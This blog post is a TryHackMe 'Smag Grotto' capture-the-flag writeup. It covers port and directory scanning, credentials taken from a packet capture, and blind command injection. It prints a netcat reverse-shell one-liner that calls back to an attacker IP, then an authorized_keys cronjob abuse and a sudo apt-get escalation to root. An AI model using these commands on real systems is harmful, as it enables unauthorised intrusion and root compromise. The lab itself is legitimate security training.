 ```yaml
---
layout: post
title:  "TryHackMe Smag Grotto writeup"
date:   2020-12-25 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Smag Grotto](https://tryhackme.com/room/smaggrotto) where you need to analyze a pcap file to find credentials to admin portal and use blind command injection to land a reverse shell.

## Reconnaissance

Let’s start with a nmap scan:
```
$ nmap -sC -sV  -p- 10.10.0.19   
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-25 15:35 EET
Nmap scan report for 10.10.0.19
Host is up (0.053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web server enumeration


![Smag]({{ site_url }}/assets/smaggrotto/web.png)

Let's use gobuster to enumerate the server:

```
 gobuster -q -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -u 10.10.0.19 -x php,html,txt dir
/index.php (Status: 200)
/mail (Status: 301)
/server-status (Status: 403)
```

The mail url looks interesting so let's take la look:
![webmail]({{ site_url }}/assets/smaggrotto/webmail.png)


Let's see what's in the packet capture file that we can download:
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=__REDACTED__HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

There is an username and password. But we also note that the request is made to a specific hostname. Let's add it to our `/etc/hosts` so we can access it.

## Gaining entry

add developmnent.smag.thm to hosts file and go to the login page. Login with the credentials from the pcap.

![command]({{ site_url }}/assets/smaggrotto/command.png)

Blind command injection. Reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.24.151 4444 >/tmp/f
```

upgrade shell with Python:

```
python3 -c 'import pty;pty.spawn("/bin/bash")
```

## Privilege escalation

Install [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and enumerate server.

There is a cronjob that copies a file to authorized keys. 
```
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
Let's copy our own key there and login as jake.


```
sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

Let's find a suitable exploit from [GtfoBins](https://gtfobins.github.io/gtfobins/apt-get/)

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
__REDACTED__
```
BOOM! We are root. 